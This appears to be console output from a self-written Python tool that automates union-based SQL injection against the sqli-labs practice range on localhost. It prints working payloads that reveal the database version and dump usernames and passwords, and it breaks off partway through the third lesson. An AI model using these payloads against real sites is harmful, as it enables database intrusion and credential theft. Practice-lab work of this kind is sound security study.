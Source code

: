 C:\Users\libaobao\AppData\Local\Programs\Python\Python37\python.exe D:/1python学习代码/code/sql注入工具编写/项目完成版/sql靶场全自动注入.py
url: http://127.0.0.1/sqli-labs/Less-1
判断闭合方式
[   ] [ '  ] [ok]
即将开始联合注入

........
select查询的字段数为:3

联合注入payload： http://127.0.0.1/sqli-labs/Less-1/?id=1'  and 1 = 0 union select 1,version(),database() %23

5.5.53
security

联合注入payload： http://127.0.0.1/sqli-labs/Less-1/?id=1'  and 0 union SELECT 1,group_concat(username),group_concat(password) FROM users %23 
..
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4,562245610@qq.com
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4,123456



url: http://127.0.0.1/sqli-labs/Less-2
判断闭合方式
[   ] [ok]
即将开始联合注入

........
select查询的字段数为:3

联合注入payload： http://127.0.0.1/sqli-labs/Less-2/?id=1  and 1 = 0 union select 1,version(),database() %23

5.5.53
security

联合注入payload： http://127.0.0.1/sqli-labs/Less-2/?id=1  and 0 union SELECT 1,group_concat(username),group_concat(password) FROM users %23 
..

Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4,562245610@qq.com
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4,123456



url: http://127.0.0.1/sqli-labs/Less-3
判断闭合方式
[   ] [ '  ] [ ')  ] [ok]
即将开始联合注入

........
select查询的字段数为:3
